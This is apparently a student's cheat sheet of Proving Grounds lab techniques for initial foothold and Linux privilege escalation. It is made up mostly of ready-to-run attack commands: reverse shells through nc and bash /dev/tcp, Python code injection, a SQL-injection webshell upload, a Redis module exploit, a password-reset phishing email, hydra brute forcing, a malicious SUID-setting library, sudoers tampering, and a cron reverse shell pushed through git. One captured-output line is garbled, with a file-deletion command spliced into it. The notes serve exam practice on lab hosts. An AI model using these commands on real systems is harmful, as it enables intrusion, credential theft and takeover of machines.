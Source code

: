 
| [[14 Proving Grounds Methods#Initial Foothold\|Initial Foothold]] | [[14 Proving Grounds Methods#Linux Privilege Escalation\|Linux Privilege Escalation]] |     |
| ----------------------------------------------------------------- | ------------------------------------------------------------------------------------- | --- |
|                                                                   |                                                                                       |     |


## Initial Foothold
- Look for any services/software and lookup their version number on EDB (Reference: ZenPhoto)
```shell
# Found version number in HTML document comment
kali@kali:~$ searchsploit "zenphoto 1.4.1.4"
kali@kali:~$ searchsploit -m 18083
kali@kali:~$ php 18083.php  192.168.142.41 /test/
```
- If HTTP Header says "Werkzeug/1.0.1 (Python 3.6.8)", and mentions "code" or attempts to evaluate something (Reference: hetemit)
```shell
# First attempt basic evaluation
curl -i http://192.168.142.117:5000/verify -X POST --data 'code=5*5'

# Then check if Python os package is imported
http://192.168.142.117:5000/verify -X POST --data 'code=os.system("whoami")'
# If returns code 0, means no errors

# Run your reverse shell from here
http://192.168.142.117:5000/verify -X POST --data 'code=os.system("nc 192.168.45.154 18000 -e /bin/bash")'
```
- If id_rsa is found, attempt ssh connection with other users, including root (Reference: Clue)
```shell
# Read and manually copy id_rsa to Kali
cassie@clue:/$ cat id_rsa

# SSH into multiple users, after setting proper rights on id_rsa
kali@kali:~$ chmod 600 id_rsa
kali@kali:~$ ssh -i id_rsa anthony@192.168.181.240 # fail
kali@kali:~$ ssh -i id_rsa cassie@192.168.181.240 # fail
kali@kali:~$ ssh -i id_rsa root@192.168.181.240 # success!
```
- Use SMTP to send phishing email e.g. Password Reset (Reference: Postfish)
```shell
# Assumed that usernames were enumerated beforehand, refer to 02 Enumeration: SMTP
# Bruteforce login credentials via pop3
kali@kali:~$ hydra -L pop_usernames.txt -P pop_passwords.txt <IP> pop3 -V -f

# Login to Pop3 to retrieve mail
kali@kali:~$ telnet <IP> 110
telnet> USER sales
+OK
telnet> PASS sales
+OK Logged in.
telnet> LIST
+OK 1 messages:
1 683
.
telnet> RETR 1

# Send Password Reset Phishing Mail
kali@kali:~$ nc -nv <IP> 25
telnet> helo postfish.off
250 postfish.off
telnet> MAIL FROM: it@postfish.off
250 2.1.0 Ok
telnet> RCPT TO: brian.moore@postfish.off
250 2.1.5 Ok
telnet> DATA
354 End data with <CR><LF>.<CR><LF>
telnet> Subject: Password Reset
telnet> reset password at this link <http://192.168.45.147/>
telnet> .
250 2.0.0 Ok: queued as 048374543F
telnet> QUIT
221 2.0.0 Bye

# Listener on Port 80
kali@kali:~$ rlwrap nc -nvlp 80
listening on [any] 80 ...  
connect to [192.168.58.200] from (UNKNOWN) [192.168.58.137] 37158  
POST / HTTP/1.1  
Host: 192.168.58.200  
User-Agent: curl/7.68.0  
Accept: */*  
Content-Length: 207  
Content-Type: application/x-www-form-urlencodedfirst_name%3DBrian%26last_name%3DMoore%26email%3Dbrian.moore%postfish.off%26username%3Dbrian.moore%26password%3DEternaLSunshinE%26confifind /var/mail/ -type f ! -name sales -delete_password%3DEternaLSunshinE
# brian.moore:EternaLSunshinE
```
- Use vulnerable SQL query to upload a webshell (Reference: Hawat)
```shell
# Test for SQLi with time injection
/issue/checkByPriority?priority='+union+select+sleep(5)+--+-
'# ignore this

# Then try to upload a file to the DOCUMENT_ROOT of the web server (check phpinfo.php if have)
/issue/checkByPriority?priority=' union select '<?php system($_GET["cmd"]); ?>' into outfile '/srv/http/shell.php' -- -
'# ignore this again

# Navigate to the page and utilize webshell to rev shell
kali@kali:~$ curl http://192.168.166.147:30455/shell.php?cmd=whoami
```
- Use Redis to run commands and start a reverse shell if RCE exploit.py doesn't work (Reference: Sybaris)
```shell
# FTP in and connect as anonymous
kali@kali:~$ ftp 192.168.210.93

# Put the malicious module file in the system
ftp> cd pub
ftp> put exp_lin.so

# Load module with Redis-Cli and Start reverse shell
kali@kali:~$ penelope 6379
kali@kali:~$ redis-cli -h 192.168.210.93
redis> MODULE LOAD /var/ftp/pub/exp_lin.so
redis> system.exec "bash -i >& /dev/tcp/192.168.45.155/6379 0>&1"
```
## Linux Privilege Escalation
- Use `/usr/bin/dosbox` to edit /etc/sudoers file (Reference: Nukem)
```shell
http@nukem:/$ LFILE='/etc/sudoers'
http@nukem:/$ /usr/bin/dosbox -c 'mount c /' -c "echo http ALL=(ALL) NOPASSWD: ALL>>c:$LFILE" -c exit
http@nukem:/$ sudo su
```
- Use existing sudo -l commands to privilege escalate (Reference: Clue)
```shell
# Use existing sudo privileges to run cassandra web as root
cassie@clue:/$ sudo -u root /usr/local/bin/cassandra-web -B 0.0.0.0:9999 -u cassie -p SecondBiteTheApple330

# Check running
cassie@clue:/$ netstat -tulpn
cassie@clue:/$ ss -ntlpu

# If can't access from Kali, access locally
cassie@clue:/$ curl 0.0.0.0:9999

# Use existing LFI vulnerability on the now root-run cassandra web to read id_rsa or etc/shadow
cassie@clue:/$ curl --path-as-is http://0.0.0.0:9999/../../../../../../../../../etc/shadow
```
- Different users may have different sudo commands/privileges that can be abused (Reference: Postfish)
```shell
# Intial access as brian.moore
brian.moore@postfish:~$ id
uid=1000(brian.moore) gid=100(brian.moore)
groups=1000(brian.moore),8(mail),997(filter)

# Get a reverse shell as filter via /etc/postfix/disclaimer
brian.moore@postfish:~$ cat /etc/postfix/disclaimer # owned by root, readable AND writable by us

# Check sudo privileges of filter user
filter@postfish:/var/spool/postfix$ sudo -l
(ALL) NOPASSWD: /usr/bin/mail *

# Refer to GTFOBins to PrivEsc
```
- Give GLOBAL sudo commands to SU to root (Reference: pc)
```shell
user@pc:/tmp$ cat cve-2022-35411.py
# exec_command('echo "user ALL=(root) NOPASSWD: ALL" > /etc/suoders')

user@pc:/tmp$ chmod +x cve-2022-35411.py
user@pc:/tmp$ python3 cve-2022-35411.py
user@pc:/tmp$ sudo -l
```
- Use missing library file to give /bin/bash a SUID bit to run as root (Reference: Sybaris)
```shell
# Write malicious library file
pablo@sybaris:/tmp$ vi test.c
#include <stdio.h>  
#include <unistd.h>  
#include <sys/types.h>  
#include <stdlib.h>  
  
static void inject() __attribute__((constructor));  
  
void inject(){  
setuid(0);  
setgid(0);  
printf("I'm the bad library\n");  
system("chmod +s /bin/bash");  
}

# Compile and put the file in the LD_LIBRARY_PATH
pablo@sybaris:/tmp$ gcc -o /usr/local/lib/dev/utils.so -shared -fPIC test.c

# Wait for root to run its cron job and call the library file
pablo@sybaris:/tmp$ ls -la /bin/bash

# Priv Esc once SUID bit is set
pablo@sybaris:/tmp$ bash -p
```
- Use git-shell user to fetch, review, and edit git repo that has a crontab task (Reference: Hunit)
```shell
### Found various hints to a git server
[dademola@hunit ~]$ ls /
# git-server folder in /
[dademola@hunit ~]$ cat /etc/crontab.bak
#*/3 * * * * /root/git-server/backups.sh
#*/2 * * * * /root/pull.sh

# Only found Git backend files in /git-server, try clone
[dademola@hunit ~]$ git clone file:///git-server/
[dademola@hunit ~]$ cd git-server
[dademola@hunit ~]$ git log
[dademola@hunit ~]$ cat backups.sh

# Try to edit and commit a change
[dademola@hunit ~]$ echo "bash -c 'bash -i >& /dev/tcp/192.168.45.167/18030 0>&1'" >> backups.sh
[dademola@hunit ~]$ chmod +x backups.sh
[dademola@hunit ~]$ git add -A
[dademola@hunit ~]$ git commit -m "pwn"
[dademola@hunit ~]$ git push origin master
# Failed because no permissions, but got git user!

# Clone repo on Kali
kali@kali:~$ GIT_SSH_COMMAND='ssh -i git_id_rsa -p 43022' git clone git@192.168.236.125:/git-server

# Configure Git Identity
kali@kali:~$ cd git-server
kali@kali:~/git-server$ git config --global user.name "kali"
kali@kali:~/git-server$ git config --global user.email "kali@kali.(none)"

# Inject payload and make it executable
kali@kali:~/git-server$ echo "bash -c 'bash -i >& /dev/tcp/192.168.45.167/18030 0>&1'" >> backups.sh 
kali@kali:~/git-server$ chmod +x backups.sh

# Add and Commit
kali@kali:~$ git add -A
kali@kali:~$ git commit -m "pwn"

# Push via SSH into Git user
kali@kali:~$ GIT_SSH_COMMAND='ssh -i ~/git_id_rsa -p 40322' git push origin master

# Setup listener
kali@kali:~$ nc -nvlp 18030
```